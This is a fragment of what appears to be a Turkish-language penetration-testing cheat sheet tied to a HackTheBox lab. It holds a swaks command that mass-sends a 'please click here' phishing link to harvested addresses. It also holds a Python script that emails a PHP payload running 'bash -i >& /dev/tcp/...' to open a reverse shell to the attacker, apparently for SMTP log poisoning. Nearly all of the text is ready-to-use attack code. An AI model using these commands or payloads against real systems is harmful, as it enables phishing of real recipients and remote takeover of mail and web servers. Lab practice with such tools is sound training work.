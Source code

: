 ```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```

## Python Scripti ile Email Göndermek

```bash
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload 
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
